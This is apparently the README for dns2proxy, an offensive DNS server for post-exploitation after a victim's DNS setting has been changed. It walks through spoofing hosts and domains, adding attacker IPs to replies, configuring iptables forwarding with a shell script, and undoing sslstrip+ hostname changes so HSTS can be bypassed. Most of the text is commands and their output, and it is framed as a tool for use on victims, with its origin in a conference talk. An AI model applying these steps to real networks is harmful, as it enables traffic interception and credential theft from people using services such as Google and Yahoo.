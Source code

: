 dns2proxy
=========

Offensive DNS server

This tools offer a different features for post-explotation once you change the DNS server to a Victim.

Feature 1
---------

Traditional DNS Spoof adding to the response the original IP address.

Using spoof.cfg file:

hostname ip.ip.ip.ip

root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg 

// launch in another terminal dns2proxy.py

root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1
Server:		127.0.0.1
Address:	127.0.0.1#53

Name:	www.s21sec.com
Address: 1.1.1.1
Name:	www.s21sec.com
Address: 88.84.64.30

or you can use dominios.cfg file to spoof all host of a same domain:

root@kali:~/demoBH/dns2proxy# cat dominios.cfg 
.domain.com 192.168.1.1

root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1
Server:		127.0.0.1
Address:	127.0.0.1#53

Name:	aaaa.domain.com
Address: 192.168.1.1

Hostnames at nospoof.cfg will no be spoofed.

Feature 2
---------

This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.
Check my slides at BlackHat Asia 2014 (OFFENSIVE: EXPLOITING DNS SERVERS CHANGES).

To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding

Usage: ia.sh <interface> <ip1> <ip2>


root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230
Non spoofing imap.gmail.com
Non spoofing mail.s21sec.com
Non spoofing www.google.com
Non spoofing www.apple.com
Non spoofing ccgenerals.ms19.gamespy.com
Non spoofing master.gamespy.com
Non spoofing gpcm.gamespy.com
Non spoofing launch.gamespyarcade.com
Non spoofing peerchat.gamespy.com
Non spoofing gamestats.gamespy.com
Specific host spoofing www.s21sec.com with 1.1.1.1
Specific domain IP .domain.com with 192.168.1.1
binded to UDP port 53.
waiting requests.
Starting sniffing in (eth0 = 172.16.48.128)....

< at other terminal >

root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1
Server:		127.0.0.1
Address:	127.0.0.1#53

Name:	www.microsoft.com
Address: 172.16.48.128
Name:	www.microsoft.com
Address: 172.16.48.230
Name:	www.microsoft.com
Address: 65.55.57.27


The fhtang.sh script will terminate the program and restore normal iptables.

Hostnames at nospoof.cfg will no be spoofed.


Feature 3
---------

Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.

This server is necesary to make the sslstrip+ attack.

root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com
Server:		127.0.0.1
Address:	127.0.0.1#53

Name:	webaccounts.google.com
Address: 172.16.48.128
Name:	webaccounts.google.com
Address: 172.16.48.230
Name:	webaccounts.google.com
Address: 74.125.200.84

root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like
Server:		127.0.0.1                                                     www.yahoo.com  
Address:	127.0.0.1#53

Name:	wwww.yahoo.com
Address: 172.16.48.128
Name:	wwww.yahoo.com
Address: 172.16.48.230
Name:	wwww.yahoo.com
Address: 68.142.243.179
Name:	wwww.yahoo.com
Address: 68.180.206.184


Instalation
-----------

Python 2.6 and dnspython (www.dnspython.com) is needed.

